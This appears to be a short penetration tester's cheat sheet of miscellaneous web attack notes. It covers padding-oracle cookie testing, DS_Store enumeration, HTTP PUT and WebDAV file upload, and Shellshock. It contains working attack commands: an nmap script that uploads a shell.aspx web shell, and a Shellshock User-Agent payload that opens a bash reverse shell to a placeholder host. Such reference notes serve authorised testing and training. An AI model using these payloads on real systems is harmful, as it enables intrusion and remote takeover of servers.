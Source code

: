 # Misc

## session cookies

If server errors on wrong cookie,the sessions id might be vulnerable to padding oracle attacks, which we can test with padbuster or gobuster

## dsstore

DSStore Files are placed when apple device access shares. If they happen to be on a webserver we can use them to enumerate the filesystem with [ds_storescanner](
https://github.com/internetwache/ds_storescanner)

## other

* if all responses are forbidden on web discovery try different request methods

## http-put

```bash cheat put upload file with http put
nmap -Pn -n -p 80 --script=http-put.nse --script-args http-put.file='shell.aspx',http-put.url='/shell.aspx' <ip>
```

## webdav

Test which permissions we have and which filetypes can be uploaded (this creates a lot of junk on the server if its vulnerable):
`davtest -url <url>`

If a certain extension is blocked for uploading you might be able to upload a harmless extension and then rename it to the one you want with `move`.

Use cadaver to connect and upload:
`cadaver <ip> && put <filename>`

## shellshock

In user agent: 
```bash cheat shellshock shellshock in user agent
() { :; }; bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

tags: #misc #cookies #session #shellshock 
